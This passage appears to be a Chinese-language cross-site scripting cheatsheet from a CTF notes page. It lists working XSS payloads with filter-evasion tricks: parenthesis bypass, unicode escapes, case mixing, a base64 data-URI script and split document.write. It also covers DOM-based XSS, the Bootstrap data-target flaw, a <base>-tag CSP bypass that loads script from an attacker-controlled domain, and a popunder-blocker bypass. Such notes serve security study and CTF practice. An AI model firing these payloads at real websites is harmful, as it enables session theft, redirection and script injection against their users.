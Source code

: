 ```js
// body
// 這種payload也可以繞過括號過濾
<body/onload=javascript:window.onerror=eval;throw=alert\x281\x29’;>  
```
* DOM based XSS  
```js
<script>document.getElementById("contents").innerHTML=location.hash.substring(1);</script>
// #之後的內容不會被傳送到server端
```
* bootstrap data-* 屬性  
```js
<script src="https://ajax.googleapis.com/ajax/libs/jquery/2.2.4/jquery.min.js"></script>
<script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>
<button data-toggle="collapse" data-target="<img src=x onerror=alert(0)>">Test</button>

// 關於這個漏洞的解釋issue中有一個評論很清楚
<button data-toggle="collapse" data-target="<?=htmlspecialchars($_GET['x']);?>">Test</button>
// 雖然有參數可控但是htmlspecialchar轉義，這本該是安全的，但是會在bootstrap環境下data-target的屬性中觸發
```
值得注意的是`data-target`本身不會造成xss漏洞，而是被帶到boostrap的環境下發揮效用的！  
[XSS in data-target attribute #20184](https://github.com/twbs/bootstrap/issues/20184)  
* Vue.js  
with SSTI  
* `<base>`覆蓋相對路徑下的js  
這是我在RCTF-2018中碰到的比賽思路，CSP沒有限制`base-uri`因此可以用`<base>`繞過，而頁面中剛好又有用相對路徑引用外部的js檔，我們便可以自己偽造一個無視CSP的js  
**Exploit**:  
:point_down: 頁面中被插入`<base href="http://controlled_domain/">`  
:point_down: 被引入的`/assets/jquery.min.js`全都變成`http://controlled_domain/assets/jquery.min.js`  
:point_down: `controlled_domain/assets/jquery.min.js`我們可以在裡面插入`location.href=url;`  
:point_down: 當我們訪問最前面被插入`<base>`的頁面時就會被導到這個`url`囉！  
細節詳見：[rblog-writeup](https://github.com/shinmao/CTF-writeups/tree/master/RCTF2018)


# 彈窗手勢
現在大部分的瀏覽器都禁止未禁用戶允許的彈窗了  
@MasatoKinugawa 發現一個bypass限制的技巧：  
```js
<script>
onkeydown=function(){
    window.open('//example.com/','_blank','a');
}
onkeypress=function(){
    window.open('about:blank','_blank').close();
}
```
以上效果可瀏覽 https://vulnerabledoma.in/popunder/keyevent.html  
[Popunder restriction bypass with keydown and keypress event](https://bugs.chromium.org/p/chromium/issues/detail?id=836841)  

# Cheatsheet
```php
</script>"><script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>         // 協議解析
</ScRiPt>"><ScRiPt>prompt(1)</ScRiPt>
"><script>al\u0065rt(document.domain)</script>
"><script>al\u{65}rt(document.domain)</script>
"><img src=x onerror=prompt(1)>
"><svg/onload=prompt(1)>
"><a/href=javascript&colon;co\u006efir\u006d&#40;&quot;1&quot;&#41;>clickme</a>

// document.write take multiple arguments
document.write("<s","crip","t>al","ert(","1)","</s","cript>")

```